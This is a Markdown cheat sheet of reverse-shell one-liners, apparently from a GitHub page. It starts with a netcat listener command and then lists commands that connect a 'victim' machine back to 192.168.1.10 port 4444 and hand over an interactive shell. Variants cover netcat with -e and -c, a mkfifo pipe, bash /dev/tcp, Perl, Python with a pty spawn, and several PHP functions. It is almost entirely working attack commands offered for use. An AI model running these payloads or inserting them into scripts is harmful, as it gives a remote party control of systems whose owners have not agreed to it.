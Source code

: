 
# Reverse Shells
---

Listen to all them with
```bash
# nc -lvp 4444
```
### Netcat
---
```bash
# nc -e /bin/sh 192.168.1.10 4444
# nc -e /bin/bash 192.168.1.10 4444
# nc -c bash 192.168.1.10 4444
```
If the victim `netcat` version does not support `-e`, try to use:
```bash
# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.10 4444 >/tmp/f
```
### Bash
---
```bash
# 0<&196;exec 196<>/dev/tcp/192.168.1.10/4444; sh <&196 >&196 2>&196
```
```c
# bash -i >& /dev/tcp/192.168.1.10/4444 0>&1
```
### Perl
---
```perl
perl -e 'use Socket;$i="192.168.1.10";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### Python
---
```python
# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.45",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
### PHP
---
```php
# php -r '$sock=fsockopen("192.168.1.10",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
```php
# php -r '$sock=fsockopen("192.168.1.10",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
# php -r '$sock=fsockopen("192.168.1.10",4444);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
# php -r '$sock=fsockopen("192.168.1.10",4444);`/bin/sh -i <&3 >&3 2>&3`;'
# php -r '$sock=fsockopen("192.168.1.10",4444);system("/bin/sh -i <&3 >&3 2>&3");'
# php -r '$sock=fsockopen("192.168.1.10",4444);passthru("/bin/sh -i <&3 >&3 2>&3");'
# php -r '$sock=fsockopen("192.168.1.10",4444);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

